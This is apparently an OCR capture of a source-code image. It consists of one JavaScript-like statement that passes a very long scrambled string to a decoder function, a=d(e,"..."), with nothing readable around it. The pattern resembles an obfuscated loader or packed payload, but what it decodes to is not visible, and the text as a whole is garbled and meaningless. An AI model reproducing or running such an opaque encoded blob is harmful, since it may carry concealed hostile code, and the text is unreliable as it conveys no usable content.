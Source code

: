 a=d(e,"RvE7f<lUow=sx!?AvA=xoE<oE?tx!=s%ol<=x=sfwflfEw+x?7&x?!soo?lf7o=?wEU!fEAlAox!wsUffolxf=vo??xfwokEAl!s<!<?f?7of=EsAlxx=EUl?l!Ps)o8fo7+1s!Usowl=!oe<l7<+E!o=?oE?l!As<U7<?7<(??sp=?lsloxlE7l=EwxllfEvl7x7T?os?wflo?f!p=xE!ffEsAfo<=UoTf?EfAox!<AU?<w?vAo?ml7U=/A7<kU!ExKoEl<o)<fE=te!l=xoE<oE?tf!As%ol<x7XwxwUlofwlE7lhx?Esoo?lff?<2?lxEwElo7?vE=<U!f=E<Lvvo3lxfw=U:ff!wwAosf=7Ezo!)s<oK<vA!xow?UwfAEwA=!+=UU?<oE?27<l<f E!o=?oE>!?Ax<wUUGi!!o=?xvwflAfE!=AUs==vlxf4E<s<xswoU!_??ls?wEl!f<vs?As?!b=0o=vf?AxfwAAf!f=)UlfxE}oxoUl77U-=s===oxlvU?lfE=JM!l==EUv7xv=El?f7Es?!?UwUo=<?f7vu!Uax?!soo?lf7o=U=&l?ffvo?!UAU?Uw(Elxf!vo??xfwoAxA<xswvUolv77AU!=swxx==Uof?EfAo<?lC7<vv!osUw7==w=<lExcE!lfl7?vf?w=foxlD7EAxA7xUwflA7?EDxsxEw7lwfSvAxo!v=UUswfU7fOvl?xx*<UEoJE!w=!U=<<EffoEoAfx==5Uf!o!v=U<slf7wkA?;s<!EsAU?<fE=A?UfUtfQvU!?sxf<fl7lE w!xAU?l!7?Ev?lxw=_lff<Es7=vo?lsxwEllx!xo=ol?<NEwAvvoAAxfw=Uyffsfw?U?f?Y!If!A==U!<lElA=?7=?o=<AUx<?EoA?!f=ovsv7!xs=oxl?7xAf?ws!=isEw<<?7f2=!?f=f<EvA<xoUfU77xv7A7xEwUs?wfl=fYvl?xxlwol?ffUxlw7=;vUEf!v?Afx=w?EoAo!==o!(=fU=<qElAx!Ewos!<ffEc}!l=xo/?!?osow7vsf<^A?EU7l!lofoa?AgxwwvE7fxvfAU!vwlUwwElx7?vf?=7f_A!x=Uvot=xfw=UJff!wwAosf=7Ero!rs<oe<vA!xow?U?fsEUAA!E=xU!<TEoA!!U=xol<l=?!=<=7mTl!=l<fUv!?Axol<7MBlvA?f! <!lxffE<?A!Ew<U?<Ev=A!xf=lUs<Uv?A!!wlwUf<lE=xEsx=EoU<f7vDs=As<oAv?vvmf!7swU?l<fE???Usfw)l<Axv<!?s<woE=7wQx!?sUwxE?fE{x?=x<<xfAfEvvAUsx=7o9ExE<AEx?=7x-wslxfEvolEE<Ax!x=svxAAxow?Uffo=A==o=<L7E%s!7l<lU<=7<-oEov?!f==oH<fxEsEwxvwAUAv?fsAwEv!7fv?A7xfwolEfsvl?ls=wsUv<f!v?=xx=7UEffvwsfvlAAxEwol?fEsosfof<sEE%usf=fo?fbEA/I?7=ooslEElkUElSw!E=oU?<Ex5s(w=vUEvvo?!s?wUlf7Ev77<+w!?xvo=l,7lk=U0UEfUv<??xEUUUlfwvU??!v?=xAwllxfEl?<77EAw!vo=ol7oEE?ls!w!lollEl=EU!f?EfA=x?7=E=}x?vA?!?==o)<lE=wEwvl!7fvUwswxoxUlooll7fG=?JsfvsvE?ws==fUvfAll7AvE?os?+U!A=Evo?xxEwol?ffv=A41lwxU!fov?Afxo<U7KAo!vslo!lvE?cw!oAx!<=oU?<fEo==lo=xoU<oE?Yf!ofA7=vf?Emo?Esfo=lWwwUff7E=o?ov7=va?ls=f<EUA!xA=of<v.?l l!E=?o7<=?wA7xxlxf=fvVU?ww?=?Uv7fvx!v!=A=!w=lUx<EElw}oflw?s?x!xxlff=?=(<=7J*l!=lA7<Ev?Zxow?llfsvl?Uw7<?7fvE?EsAwll=fE&A?osxwUl=7AvxAEffE7A:xlwxU/!?x?so<?<w7vbx?vAo!E=fU=<;EfwEoElxU?<?E=q_!l==vlvv?!xvwffA7lvAAvZoAUsfo=l}7fx==vlo7=vsAwx7w7U77?vU??UAsvlkfAEXq7xo=soEflEU)!vxA!xow?Uffoxv=low<lEwvEoAwJo4l=Ux<=EoA?!f=ov7v<?ss!l=<?f7<=7!Gl!xsEolAf?fx?fsU<fxEvAExswollfUll<ovE?os?wEEU?!!wwooa<lv?%7x?wAfsvl?xx=w=lAfsEMAvxAw?U=fxE7A!!)=oAx?2=oU?<fEo==oUf=v=?=?QwUow<7f=v<AUsf!?swo=l+7l;=Uslfflvf7=7o?lsxwEll!!xUw?U?nvv!AlxAw?EA<xvxefoU=!o<<o77A=x?s<Ux<v?7va!oswo7vvvfSx?EsUUE<=E?xvx!oQ!==?of<=7..lsxEvxo<?7sW=?mslAE!v==U7f<v!AollfEvE?os?nU!?sEUA<=EwwoU=ffv=A6xfEAElAUx?oAoU<*E?%r?Es%x?=AU=<.ElA=oo<ofEvE?wsyoEl7fv#sE?vE!=sOol<=!vso=vU7vwvfAfsow!U77?vyAUv+?AsxwElo7x=EwlUUf!vw??xl=f!vw=UhflElAExow?UffAEPAlxx=mvvA=!x==!E=lUx<EEoA?!fs?x><l7w8E!o=?oEvo?Hx<o=lw7xvw?vxfoxU77slEU73??fs=o?)<?AxE<7U<foE7Alov=sUx27EDAf!w<so<fAEEs7sf=fo?bsEwAo?ul7Us<fE=)wwv==oxl77E f!wlsw<ll?!vx?oxfwUvs7fv7?lx7osl?7lv!?<Uo?Exoo?lf7=_?Uxlx<l!7!<xo=7Ul(vA=Ax!7=EUffwUif?vxAExowxuE,f!ws<Ux<s7Uf?E=A=!a=lU=?l?i==ol<=o+lUExTE!o=xvxTl?lslU<lxfUvE?<s?o?lEfsvlAExU?fsAwull7xv/oUUEfxv=frE??xxEwolx vxUs7UE<=7&Ao!!=oUwE<AXxl=vUU<vEEAoxA=lo9<lEsU?<fE=.G?E=xoE<ofp6?!=sCol<A7E.o!?sfwllB7Udx?Esoo?lf7=vA?lsxwEl=7?v<?=xnwUlxfEvo?Axfw=U{ll77AExow?Uff=EoAlxx=xUo<DEfA=!c==UxoEf7A?!l==ov<l7v&E^o=Aof<x7C,x!xslooo?<r>=?Eslw7lEfE9?vfAfw:lo7xvs?oxNwfl=w!vl?xxEw=l?f<v=AJf}wxUEfovAAfx==KUlf?EEAox?=fo7<JElAx!37?E?vos?swwvlxfv<o7v,f!=s_ofdlxfmo!?sfo=l77l3x?Ex=w!lf7sv3?osxwElof?wQ?=xvwll!fEvo??xfvfUIflvxA7xow?UffsE=Alxx=EUoowEfA=!W=fvsC<!olwos<?7wFxwUxvwEvw7l#=?AUvwsl<7oxwx=s==fEv7Ay?AlUwwvl=f*vA=UxJ=EUwfov=?Aov=sUx#77EA?!==!7vf=EwAx!w=voffx77Aso?Ao!?=fU=<GEfwEoElx?w?s!?swoxvUvWvE?wsoo=<AollE7EXo!?sEv?vo?Es?wEsowslf7=vm?fU=fEEU?xxsw?Usf7El??!<w!xf=EUVflvxAM<l<oE!Hw!-=Aos=fUof?EfA=! =lw4wEEoC7!f==oV<fxsslwT<?of<A7mBl!xsMEvH=?xs=?DxUoxlE7o xUxllflvl!<xx=UUEf<v???xE=sUl<EEUff7EA:xlwxU0;<xssUUl<?7fAx?v=xU!EwAfx==<Us<<ElAx!7==of<=EAoE<oE?_f?lsJol<xffvE!?sfo=lf7l,x?EsooAlf7sva?lsxwElo7?Ef?=xawll?fEvw??xf=AU0flvxA7xow?Ufl=E!Alxx=EUof?E!A=!bsvUx<fEoA?!f=?ojolfo^E!==?ox<=7EjlTxs7ool/7f:A?YsUoxwEfv{??ls=w7llflvEvoAowflxfev!?xxowol?=vv=Amxlw?UEfwv?Afff=kUlfxE7Aox?=fU=<wElAx!E=oo7<fE=rY!ffs7lvQ!? fAEsQol<x7^x<osUU7lv?Afsx=vlx7!?wsfo=l<7sv<?lsxw7l=ffv=?AfEv???xfw=l?!=!fw?U=f?Uf<sE2Alxx=2v:A=!===lwl}7scl!wsEoE<l7AD=?lss!o!vof<=7}Ffo{lxfoxw?Usl=vllAUvEAvx!wfUUfDv<=Us?=vEwfoE7??!D=wUAfovx67o<olUllT!?foE7Afx==zUf?<x?smU?=foE<HElAx!O7l7o^!?wsaoAlsoEllE?mf!==?v=v<?pxEwsUv7=C?A<UUUolo<Ell7=vT?lsxwElo<E<f?=xpwllxfsvo??xfw=xUflvxAExow?Uff=f(QAxx=EUof?EfA?!u=lwE<EE=A?!f==of<l<x^<!os/oflH7F_?!x?Ewl<?7lq=?UslwvlEloEU?fsxwulw7xvf?o??=El=fEvl?!xE=vl?ffUUAgxlwxUffovAAfx=v=UlfxEEAwx?=fU=<hElAx!E=oU?<fE=2O!o=xoE<oE?E=!=s#ol<x7Eeo!?sfnfl-7l{x?7soo?lf7svf?lsxwElofwvf?=xnwfE7Axxfw!oE<wE!A=!<=fxo?wUff=E-AfUAlv7U(w?EUAf=EM7wA??=UUol<?7A3w?x=Awolx7fvU!?x*w<Uv7ovUA7o7o?UZff!xA:s==7lof7vlAExl=vUvfB?fA?x7wAoEvEEsAfxs=?fVfAEEAfx!sEff<oEE0P!sUEox<vE!vnwAsfov=oo7<fE=S^!f<?E?v5!?,f?Esnol<x7qwsw!U7f<AE?lxs?Esoo?lffEv/?lsx=f=?7?vf?=xvwllxfEE=AfxfwsUzfwvxAExos?oAf=EvAlx!=EUxf?7l1<!%=wUx<fEoA?!f==w<<lE!,E!s=?of<=7pvl!xsEoo<?7f3x?8slo?lE7oL??<s=wEll7xox?os?wflsf0vl?xxEw=l?ffv=A)?fwxUEfovx=Uow<A7vt==UUEfo<7E?1?!fsloA<UAUnl!xU=lAU+7<3<xAxwlx77fEEv7Ev<!?sfo=<?Afsx=vllf<voA<s!=nlofAvU7?vf?=x w=lxfEvoMe!7w=U}flv?AExow?olf?ErAUxx=7Uof?EfA=?!=lUx<EE=A?!<==oD!#ExrE!o=Aof<=7qMl!AsEoo<?7f#??Bsloxldx?s?=os=w7ll7xvE?lloEll=fwvl?xxEwlQfAf!?ofUA<U7E:Uv?Afx==%oofxEEAo?p?sU=<4ElA?!E=oU?UfEAHb!l=xoE<o7v6f?xs<ol<!7E*=!?sfo=oOf= x?7sooAlf7sv%?x!UwElo7?E7?=xvwll!fEvxv=xfw=U9<<vxA7xow?wxf=E:Alxx=EUof?7lf<!-=UUx<fEoA?!fx=ws<lE!PE!w=?oU<=7 9?!xsEoolZ7fHs?bsl=olE7o5??<s=wkll7xEw?os?wflsfpvU?xxEs7l?ffv=AExlwxUEfoEAAfx==jUUfxE7Ao!E!ZU=<+El8!!E=wU?<f<ED)!l=xo<<oE?Kf!=ssol<x7Eew!?s<o=lWsySx?EsooAlf7=v*?lx7wElo7?vl?=xWwllxfEvo<?&fw=UvflvxAExlw?Uff=EaAlx?=EUof?EfA=!ywlss<EE?A?!f==A7x=w?lsflv<of<A7Nhl!xEl?wxq=plA?EsloxlE7or??fs=!9lU7xvE?os?wfl=f3vl?xxEwoUfffv=AZxl3=UEf=v?Afx==BUlfx7fAo!v=fUs<qElAx!E=wU?<oE=Dv!l=xoE<o7fhf!!sqoo